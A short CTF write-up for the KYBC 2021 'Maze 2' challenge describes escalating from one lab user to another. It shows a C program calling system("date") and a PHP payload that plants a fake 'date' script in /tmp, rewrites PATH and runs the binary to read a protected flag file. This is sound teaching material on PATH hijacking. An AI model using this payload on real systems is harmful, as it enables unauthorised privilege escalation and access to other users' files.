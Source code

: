 Title: KYBC 2021 - Maze 2 Writeup
Date: 2021-03-22
Tags: ctf, lfi, rce, kybc
Slug: kybc-yogosha-2021-maze-2-writeup
Summary: Writeup for Maze 2 challenge at KYBC CTF


_In order to start this challenge it was necessary to complete [Maze 1]({filename}/ctf/kybc-yogosha-maze1.md) first_

After catching the first flag, let's check what's in `home/ctf_user2`. There is a flag file, but this time concatenating it doesn't work since the current user (`ctf_user1`) doesn't have read permissions to it. The only other interesting thing is a file called `sysadmin.c`. Permissions are in my favor this time, so let's have a look at the content:

```
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv)
{

    printf("Hello sysadmin :) \n");
    printf("Today date : \n");
    fflush(stdout);
    setreuid(geteuid(), getuid());
    system("date");
    return 0;
}
```

That `system("date")` call looks promising, so let's try to replace it with some useful bash statement instead:

```
<?php system('echo "cat /home/ctf_user2/.52942ab6e8a6dd0bd75a9029c2b5c574_flag2.txt" > /tmp/date && chmod 777 /tmp/date && export PATH=/tmp:$PATH && /home/ctf_user2/sysadmin'); ?>
```

Check the proc file and catch the flag - success!
